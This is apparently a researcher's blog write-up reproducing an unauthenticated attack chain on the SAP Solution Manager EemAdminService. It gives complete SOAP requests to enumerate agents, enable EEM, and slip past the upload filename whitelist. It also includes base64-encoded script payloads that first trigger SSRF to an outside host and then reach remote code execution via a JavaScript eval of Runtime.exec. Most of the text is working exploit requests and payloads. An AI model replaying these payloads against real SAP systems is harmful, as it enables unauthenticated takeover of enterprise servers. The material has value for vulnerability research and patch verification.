







1. So, let's find all the jars relevant to `EEM`.

```
➜  ~ ssh root@172.16.30.43
Password:
solman72java:~ # cd /usr/sap/J72/J00/j2ee/cluster/apps/sap.com
solman72java:/usr/sap/J72/J00/j2ee/cluster/apps/sap.com # find . -name "*Eem*"
./tc~smd~agent~application~eem/servlet_jsp/tc~smd~agent~application~eem/root/WEB-INF/entities/DataCollectionPushEemTypeBuilder
./tc~smd~EemAdminGateway
./tc~smd~EemAdminGateway/webservices_container/backup/Ejb_EemAdminGateway.jar
./tc~smd~EemAdminGateway/webservices_container/Ejb_EemAdminGateway_EJB
./tc~smd~EemAdminGateway/webservices_container/Ejb_EemAdminGateway_EJB/types/EemAdminService.jar
./tc~smd~EemAdminGateway/servlet_jsp/EemAdminService
./tc~smd~EemAdminGateway/servlet_jsp/EemAdminService/EemAdminService.war
./tc~smd~EemAdminGateway/EJBContainer/applicationjars/Ejb_EemAdminGateway.jar
```

Ok. It looks like there is `EemAdminService` in the `tc~smd~EemAdminGateway` application. It's high time to check what's inside that app.

```
solman72java:/usr/sap/J72/J00/j2ee/cluster/apps/sap.com # cat tc~smd~EemAdminGateway/servlet_jsp/EemAdminService/root/WEB-INF/web.xml

<?xml version="1.0" encoding="UTF-8" standalone="no"?>
<web-app xmlns="http://java.sun.com/xml/ns/j2ee" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" version="2.4" xsi:schemaLocation="http://java.sun.com/xml/ns/j2ee http://java.sun.com/xml/ns/j2ee/web-app_2_4.xsd">
<display-name>EemAdminService</display-name>
<servlet>
<servlet-name>EemAdmin</servlet-name>
<servlet-class>com.sap.engine.services.webservices.servlet.SoapServlet</servlet-class>
<load-on-startup>0</load-on-startup>
</servlet>
<servlet-mapping>
<servlet-name>EemAdmin</servlet-name>
<url-pattern>/*</url-pattern>
</servlet-mapping>
<session-config>
<session-timeout>1</session-timeout>
</session-config>
</web-app>
```

Good, let's check the `EemAdmin` servlet that handles the SOAP request.

```
http://solmanIP:50000/EemAdminService/EemAdmin?wsdl
```



And yes, looks like exactly we need. Let's check the `getAllAgentInfo` method:

```
POST /EemAdminService/EemAdmin HTTP/1.1
SOAPAction: 
Content-Type: text/xml;charset=UTF-8

<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" xmlns:adm="http://sap.com/smd/eem/admin/">
   <soapenv:Header/>
   <soapenv:Body>
      <adm:getAllAgentInfo/>
   </soapenv:Body>
</soapenv:Envelope>
```

 


Perfect! There is one SMD agent `lolkek` connected to our SAP Solutuon Manager, and the `EemAdminService` methods are available without auth!

Ok, let's try running the script via `runScript` method.


```
POST /EemAdminService/EemAdmin HTTP/1.1
SOAPAction: 
Content-Type: text/xml;charset=UTF-8
Host: 172.16.30.43:50000
Content-Length: 350

<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" xmlns:adm="http://sap.com/smd/eem/admin/">
   <soapenv:Header/>
   <soapenv:Body>
      <adm:runScript>
         <agentName>lolkek</agentName>
         <script>test</script>
         <config>YWVvbGlhbQ==</config>
      </adm:runScript>
   </soapenv:Body>
</soapenv:Envelope>
```

 

Just as expected, we see the `EEM is not enabled on this agent` message as in [original whitepaper](https://i.blackhat.com/USA-20/Wednesday/us-20-Artuso-An-Unauthenticated-Journey-To-Root-Pwning-Your-Companys-Enterprise-Software-Servers-wp.pdf) was described.
No problem. We have all that wee need to enable `EEM` for that agent using the `setAgeletProperties` SOAP method.

```xml
POST /EemAdminService/EemAdmin HTTP/1.1
SOAPAction: 
Content-Type: text/xml;charset=UTF-8
Host: 172.16.30.43:50000
Content-Length: 446

<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" xmlns:adm="http://sap.com/smd/eem/admin/">
   <soapenv:Header/>
   <soapenv:Body>
      <adm:setAgeletProperties>
         <agentName>lolkek</agentName>
         <propertyInfos>
            <flags>3</flags>
            <key>eem.enable</key>
            <value>True</value>
         </propertyInfos>
      </adm:setAgeletProperties>
   </soapenv:Body>
</soapenv:Envelope>
```

Right after that, a request dummy, the `runScript` request, returns to us:

 


I've found a simple `ServerRequest` script example and uploaded it via `uploadResource` and got `200 OK` response.

```xml
<?xml version="1.0" encoding="UTF-8"?>
<Script xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" editorversion="7.10.1.0.20101027150712" exetype="xml" hrtimestamp="2010.10.27 15:11:20 CEST" name="simple_scenario" timestamp="1288185080821" type="http" version="1.1" xsi:noNamespaceSchemaLocation="http://www.sap.com/solman/eem/script1.1">
  <TransactionStep id="1" name="dummy">
    <Message activated="true" id="2" method="GET" name="index" type="ServerRequest" url="http://1.1.1.1:1337/index.html" version="HTTP/1.1">
    </Message>
  </TransactionStep>
</Script>

```


```
POST /EemAdminService/EemAdmin HTTP/1.1
SOAPAction: 
Content-Type: text/xml;charset=UTF-8
Content-Length: 1573

<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" xmlns:adm="http://sap.com/smd/eem/admin/">
   <soapenv:Header/>
   <soapenv:Body>
      <adm:uploadResource>
         <agentName>lolkek</agentName>
         <fileInfos>
            <content>PD94bWwgdmVyc2lvbj0iMS4wIiBlbmNvZGluZz0iVVRGLTgiPz4KPFNjcmlwdCB4bWxuczp4c2k9Imh0dHA6Ly93d3cudzMub3JnLzIwMDEvWE1MU2NoZW1hLWluc3RhbmNlIiBlZGl0b3J2ZXJzaW9uPSI3LjEwLjEuMC4yMDEwMTAyNzE1MDcxMiIgZXhldHlwZT0ieG1sIiBocnRpbWVzdGFtcD0iMjAxMC4xMC4yNyAxNToxMToyMCBDRVNUIiBuYW1lPSJzaW1wbGVfc2NlbmFyaW8iIHRpbWVzdGFtcD0iMTI4ODE4NTA4MDgyMSIgdHlwZT0iaHR0cCIgdmVyc2lvbj0iMS4xIiB4c2k6bm9OYW1lc3BhY2VTY2hlbWFMb2NhdGlvbj0iaHR0cDovL3d3dy5zYXAuY29tL3NvbG1hbi9lZW0vc2NyaXB0MS4xIj4KICA8VHJhbnNhY3Rpb25TdGVwIGlkPSIxIiBuYW1lPSJkdW1teSI+CiAgICA8TWVzc2FnZSBhY3RpdmF0ZWQ9InRydWUiIGlkPSIyIiBtZXRob2Q9IkdFVCIgbmFtZT0iaW5kZXgiIHR5cGU9IlNlcnZlclJlcXVlc3QiIHVybD0iaHR0cDovLzEuMS4xLjE6MTMzNy9pbmRleC5odG1sIiB2ZXJzaW9uPSJIVFRQLzEuMSI+CiAgICAgIDxDaGVjayBpc0FjdGl2ZT0idHJ1ZSIgaXNOZWdhdGl2ZT0idHJ1ZSIgdHlwZT0iUGxhaW5UZXh0Q2hlY2siIHZhbHVlPSJTZWFyY2hUZXh0OjptYWluLmpzcDsiLz4KICAgICAgPENoZWNrIGlzQWN0aXZlPSJ0cnVlIiBpc05lZ2F0aXZlPSJmYWxzZSIgdHlwZT0iUGxhaW5UZXh0Q2hlY2siIHZhbHVlPSJTZWFyY2hUZXh0OjptYWluLmpzcDsiLz4KICAgIDwvTWVzc2FnZT4KICA8L1RyYW5zYWN0aW9uU3RlcD4KPC9TY3JpcHQ+Cg==</content>
            <fileName>test.xml</fileName>
            <scenarioName>kek</scenarioName>
            <scope>Script</scope>
            <scriptName>test</scriptName>
         </fileInfos>
      </adm:uploadResource>
   </soapenv:Body>
</soapenv:Envelope>
```

However, the thing is I still couldn't `runScript`. Server returned `com.sap.smd.eem.admin.EemException: Script test not found.` but at the same time I saw an uploaded file `rscripts/test/test.xml` via the `http://1.1.1.1:50000/tc~smd~agent~application~eem/EEM` web interface. Moreover, I've found that file on the File System of SMD Agent.

 


So, what's the problem? Inside the decompiled `com.sap.smd.eem.admin`, I've noticed the `checkResources()` method that was called every thime executed `uploadResource`. Inside that method, we could see a kind of the whitelist of filenames that could be uploaded

```java
new AllowedFile("keystore", "keyStore\\.jks", new String[] { "Script" }, false)
new AllowedFile("autoparams", "AutoParams\\.xml", new String[] { "Global" }, false)
new AllowedFile("globaltruststore", "trustStore\\.jks", new String[] { "Global", "Agent" }, true)
new AllowedFile("truststore", "trustStore\\.jks", new String[] { "Script" }, false)
new AllowedFile("configglobal", "ConfigGlobal\\.xml", new String[] { "Global" }, true)
new AllowedFile("configagent", " ", new String[] { "Agent" }, true)
new AllowedFile("script", "script\\.(http|sapgui)\\.xml", new String[] { "Script" }, false)
new AllowedFile("configscript", "ConfigScript\\.xml", new String[] { "Script" }, false)
new AllowedFile("configscriptagent", "ConfigScriptAgent\\.xml", new String[] { "ScriptAgent" }, false)
new AllowedFile("configscenario", "ConfigScenario\\.xml", new String[] { "Scenario" }, false), 
new AllowedFile("resource", "[\\w \\.]+", new String[] { "Script" }, false)
new AllowedFile("executorszip", "upload/executors\\.zip", new String[] { "Global" }, true)
new AllowedFile("testzip", "upload/test\\.zip", new String[] { "Global" }, true)
```

So, I changed the value of `fileName` to the `script.http.xml` and sent the `uploadResource` request

```
POST /EemAdminService/EemAdmin HTTP/1.1
SOAPAction: 
Content-Type: text/xml;charset=UTF-8
Content-Length: 1573

<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" xmlns:adm="http://sap.com/smd/eem/admin/">
   <soapenv:Header/>
   <soapenv:Body>
      <adm:uploadResource>
         <agentName>lolkek</agentName>
         <fileInfos>
            <content>PD94bWwgdmVyc2lvbj0iMS4wIiBlbmNvZGluZz0iVVRGLTgiPz4KPFNjcmlwdCB4bWxuczp4c2k9Imh0dHA6Ly93d3cudzMub3JnLzIwMDEvWE1MU2NoZW1hLWluc3RhbmNlIiBlZGl0b3J2ZXJzaW9uPSI3LjEwLjEuMC4yMDEwMTAyNzE1MDcxMiIgZXhldHlwZT0ieG1sIiBocnRpbWVzdGFtcD0iMjAxMC4xMC4yNyAxNToxMToyMCBDRVNUIiBuYW1lPSJzaW1wbGVfc2NlbmFyaW8iIHRpbWVzdGFtcD0iMTI4ODE4NTA4MDgyMSIgdHlwZT0iaHR0cCIgdmVyc2lvbj0iMS4xIiB4c2k6bm9OYW1lc3BhY2VTY2hlbWFMb2NhdGlvbj0iaHR0cDovL3d3dy5zYXAuY29tL3NvbG1hbi9lZW0vc2NyaXB0MS4xIj4KICA8VHJhbnNhY3Rpb25TdGVwIGlkPSIxIiBuYW1lPSJkdW1teSI+CiAgICA8TWVzc2FnZSBhY3RpdmF0ZWQ9InRydWUiIGlkPSIyIiBtZXRob2Q9IkdFVCIgbmFtZT0iaW5kZXgiIHR5cGU9IlNlcnZlclJlcXVlc3QiIHVybD0iaHR0cDovLzEuMS4xLjE6MTMzNy9pbmRleC5odG1sIiB2ZXJzaW9uPSJIVFRQLzEuMSI+CiAgICAgIDxDaGVjayBpc0FjdGl2ZT0idHJ1ZSIgaXNOZWdhdGl2ZT0idHJ1ZSIgdHlwZT0iUGxhaW5UZXh0Q2hlY2siIHZhbHVlPSJTZWFyY2hUZXh0OjptYWluLmpzcDsiLz4KICAgICAgPENoZWNrIGlzQWN0aXZlPSJ0cnVlIiBpc05lZ2F0aXZlPSJmYWxzZSIgdHlwZT0iUGxhaW5UZXh0Q2hlY2siIHZhbHVlPSJTZWFyY2hUZXh0OjptYWluLmpzcDsiLz4KICAgIDwvTWVzc2FnZT4KICA8L1RyYW5zYWN0aW9uU3RlcD4KPC9TY3JpcHQ+Cg==</content>
            <fileName>script.http.xml</fileName>
            <scenarioName>kek</scenarioName>
            <scope>Script</scope>
            <scriptName>newtest</scriptName>
         </fileInfos>
      </adm:uploadResource>
   </soapenv:Body>
</soapenv:Envelope>
```

After that, I successfuly triggered `runScript` with SSRF payload

```
POST /EemAdminService/EemAdmin HTTP/1.1
SOAPAction: 
Content-Type: text/xml;charset=UTF-8
Content-Length: 311

<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" xmlns:adm="http://sap.com/smd/eem/admin/">
   <soapenv:Header/>
   <soapenv:Body>
      <adm:runScript>
         <agentName>lolkek</agentName>
         <script>newtest</script>
      </adm:runScript>
   </soapenv:Body>
</soapenv:Envelope>
```


Voilà! got my SSRF

 


Ok, we've got `SSRF`. But we also want RCE. For that purpose, we can use the `Command` `AssignJS` message instead of `ServerRequest`, because data from `AssignJS` goes to `eval()` in java class ` com.sap.smd.eem.executor.commands.AssignJavascriptCommand`.

```java
private String eval(IExecutor executor, String expression, IEemMessageResult msgResult) throws MessageException {
    ScriptEngineManager manager = new ScriptEngineManager();
    ScriptEngine engine = manager.getEngineByName("js");
    engine.put("age", Integer.valueOf(21));
    try {
      Object result = engine.eval(expression);
      return result.toString();
    } catch (ScriptException e) {
      throw new MessageException(this, "failed to eval Javascript", 3, msgResult, e);
    } 
```


Now, we need to create a correct payload for the `Command` script message. For that, just follow `startElement()` in the  `com.sap.smd.eem.scriptxml` package.

```java
...
String id = pAttributes.getValue("id");
String name = pAttributes.getValue("name");
String isActivated = pAttributes.getValue("activated");
String method = pAttributes.getValue("method");
String type = pAttributes.getValue("type");
...
if (msgType == Message.TYPE_SERVER_REQUEST && XmlScriptFile.this.script.getProtocol().equals("http")) {
            HttpMessage httpMessage = new HttpMessage(XmlScriptFile.this.script, name, msgType);
          } else if (msgType == Message.TYPE_SERVER_REQUEST && XmlScriptFile.this.script.getProtocol().equals("sapgui")) {
            SapGuiMessage sapGuiMessage = new SapGuiMessage(XmlScriptFile.this.script, name, msgType);
          } else if (msgType == Message.TYPE_SERVER_REQUEST && XmlScriptFile.this.script.getProtocol().equals("rfc")) {
            RfcMessage rfcMessage = new RfcMessage(XmlScriptFile.this.script, name, msgType);
          } else if (msgType == Message.TYPE_COMMAND) {
            try {
              AbstractCommand abstractCommand = CommandProcessor.createCommand(method, name, XmlScriptFile.this.script);
            } catch (ExecutorException e) {
              throw new SAXException("unsupported command " + method, e);
         } 
```

as a result, we've got that `XML` payload:


```xml
<?xml version="1.0" encoding="UTF-8"?>
<Script xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" editorversion="7.10.1.0.20101027150712" exetype="xml" hrtimestamp="2010.10.27 15:11:20 CEST" name="chpk" timestamp="1288185080821" type="http" version="1.1" xsi:noNamespaceSchemaLocation="http://www.sap.com/solman/eem/script1.1">
  <TransactionStep id="1" name="dummy">
    <Message activated="true" id="2" type="Command" url="" name="AssignJS" method="AssignJS" >
    <Param name = "expression" value="Packages.java.lang.Runtime.getRuntime().exec('calc').waitFor();" />
    <Param name = "variable" value="chipik" />
    </Message>
  </TransactionStep>
</Script>
```

But I didn't see a pop-upped calculator :/  

After several JAVA experments, we've found the problem. We can't trigger RCE because SAP has their own JVM.

```
~java -version
java version "1.6.0_07"
Java(TM) SE Runtime Environment (build 6.1.006)
SAP Java Server VM (build 6.1.006, Oct 13 2009 01:46:16 - 61_REL - optU - windows amd64 - 6 - bas2:127656 (mixed mode))
```

And that JAVA doesn't know about `js` engine:

```
ScriptEngine engine = manager.getEngineByName("js");
Object result = engine.eval(expression);
 ```


So, I decided to install a fresh version of `SAP Diagnostics Agent` with a modern SAP JVM
To be honest, the installation process wasn't super easy for me, but i did it :)




```
~java -version
java version "1.8.0_152"
Java(TM) SE Runtime Environment (build 8.1.035)
SAP Java Server VM (build 8.1.035 25.51-b13, Nov 29 2017 11:24:27 - 81_REL - optU - windows amd64 - 6 - bas2:297759 (mixed mode))
```


After that, just send the previous payload again:

```
POST /EemAdminService/EemAdmin HTTP/1.1
SOAPAction: 
Content-Type: text/xml;charset=UTF-8
Content-Length: 1424

<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" xmlns:adm="http://sap.com/smd/eem/admin/">
   <soapenv:Header/>
   <soapenv:Body>
      <adm:uploadResource>
         <agentName>lolkek3</agentName>
         <fileInfos>
            <content>
PD94bWwgdmVyc2lvbj0iMS4wIiBlbmNvZGluZz0iVVRGLTgiPz4KPFNjcmlwdCB4bWxuczp4c2k9Imh0dHA6Ly93d3cudzMub3JnLzIwMDEvWE1MU2NoZW1hLWluc3RhbmNlIiBlZGl0b3J2ZXJzaW9uPSI3LjEwLjEuMC4yMDEwMTAyNzE1MDcxMiIgZXhldHlwZT0ieG1sIiBocnRpbWVzdGFtcD0iMjAxMC4xMC4yNyAxNToxMToyMCBDRVNUIiBuYW1lPSJjaHBrIiB0aW1lc3RhbXA9IjEyODgxODUwODA4MjEiIHR5cGU9Imh0dHAiIHZlcnNpb249IjEuMSIgeHNpOm5vTmFtZXNwYWNlU2NoZW1hTG9jYXRpb249Imh0dHA6Ly93d3cuc2FwLmNvbS9zb2xtYW4vZWVtL3NjcmlwdDEuMSI+CiAgPFRyYW5zYWN0aW9uU3RlcCBpZD0iMSIgbmFtZT0iZHVtbXkiPgogICAgPE1lc3NhZ2UgYWN0aXZhdGVkPSJ0cnVlIiBpZD0iMiIgdHlwZT0iQ29tbWFuZCIgdXJsPSIiIG5hbWU9IkFzc2lnbkpTIiBtZXRob2Q9IkFzc2lnbkpTIiA+CiAgICA8UGFyYW0gbmFtZSA9ICJleHByZXNzaW9uIiB2YWx1ZT0iUGFja2FnZXMuamF2YS5sYW5nLlJ1bnRpbWUuZ2V0UnVudGltZSgpLmV4ZWMoJ2NhbGMnKS53YWl0Rm9yKCk7IiAvPgogICAgPFBhcmFtIG5hbWUgPSAidmFyaWFibGUiIHZhbHVlPSJ5eXl5eSIgLz4KICAgIDwvTWVzc2FnZT4KICA8L1RyYW5zYWN0aW9uU3RlcD4KPC9TY3JpcHQ+</content>
            <fileName>script.http.xml</fileName>
            <scenarioName>kek</scenarioName>
            <scope>Script</scope>
            <scriptName>testz1</scriptName>
         </fileInfos>
      </adm:uploadResource>
   </soapenv:Body>
</soapenv:Envelope>
```

and, as a result, I got my calc on the victim server!

 


